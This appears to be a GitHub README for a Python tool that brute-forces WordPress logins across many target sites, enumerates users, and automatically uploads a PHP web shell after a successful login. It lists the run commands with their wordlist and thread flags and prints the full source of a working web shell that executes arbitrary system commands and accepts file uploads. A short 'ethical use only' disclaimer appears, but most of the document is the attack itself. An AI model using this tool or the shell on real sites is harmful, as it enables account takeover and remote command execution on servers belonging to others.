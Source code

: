 # k0ur1i WordPress Tool
![secure-wordpress-login-1024x597](https://github.com/user-attachments/assets/05942416-4cc7-424d-a31d-1ebb606e7efe)

## Author: k0ur1i
## Version: 1.0

## Overview
This tool is a versatile CLI-based WordPress security tester designed to automate:

Brute Force Attacks to test WordPress login credentials.
User Enumeration to discover valid usernames.
Auto Shell Upload to simulate PHP shell exploitation upon successful login.


```

██████╗░░██████╗░███████╗███████╗░██████╗░░█████╗░██████╗░██████╗
██╔══██╗██╔════╝░██╔════╝██╔════╝██╔════╝░██╔══██╗██╔══██╗██╔══██╗
██║░░██║██║░░░░░░█████╗░░█████╗░░██║░░██╗░███████║██║░░██║██║░░██║
██║░░██║██║░░░░░░██╔══╝░░██╔══╝░░██║░░╚██╗██╔══██║██║░░██║██║░░██║
██████╔╝╚██████╗░███████╗███████╗╚██████╔╝██║░░██║██████╔╝██████╔╝
╚═════╝░░╚═════╝░░╚══════╝╚══════╝░╚═════╝░╚═╝░░╚═╝╚═════╝░╚═════╝░

by k0ur1i

--------------------------------------------------
[INFO] Current Date and Time:  2024-11-28 12:34:56
--------------------------------------------------
[1] Brute Force Attack
[2] User Enumeration
[3] Auto Upload PHP Shell
[4] Exit
Choose an option: 
```


## Features
1. Multi-target brute force support.
2. Customizable username and password wordlists.
3. User enumeration for discovering valid accounts.
4. Automatic PHP shell upload upon login success.
5. Fast, multithreaded execution.
   

## Requirements
```pip install -r requirements.txt ```

1. Python 3.8+
2. ```git clone https://github.com/00xk0uR1i/kouriBruter ```
3. Run the script:
# Brute Force Attack

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt -t 10 --timeout 10`

    -T: Target file containing URLs of WordPress sites.
    -U: User list file for usernames.
    -P: Password list file for brute-forcing.
    -t: Number of threads (default 10).
    --timeout: HTTP request timeout in seconds (default 10).
 # User Enumeration

   
    - `python3 run.py -T targets.txt -U users.txt --enumerate` ✨ new ✨
    - `--enumerate: Enumerate usernames without brute-forcing.` ✨ new ✨
 # Auto Upload PHP Shell

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt --upload-shell shell.php`
    - `--upload-shell: Specify the path to a PHP shell file for automatic upload.` ✨ new ✨
    
# example 
```python3 run.py```
1. Select [1] for brute force.
2. Input paths to targets.txt, users.txt, and passlist.txt.
3. The tool will attempt login credentials and display successful attempts.

This tool is intended for ethical use only. Unauthorized testing or exploitation is illegal and may result in severe consequences. Use it only on systems you own or have explicit permission to test. **Note**: They might not get updated frequently and are kept for legacy reasons:


## Example Exploit Script

```

<?php
// Simple PHP Web Shell

if (isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}

if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "Uploaded: " . $_FILES['file']['name'];
    die;
}

?>
<!DOCTYPE html>
<html>
<head>
    <title>k0ur1i Shell</title>
</head>
<body>
    <h1>Welcome to k0ur1i Shell</h1>
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <button type="submit">Execute</button>
    </form>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
</body>
</html>

```


Note:

## This tools for ethical hacker I am Not responsible for any bad use .

## License
# This project is licensed under the MIT License.

>thanks for all 

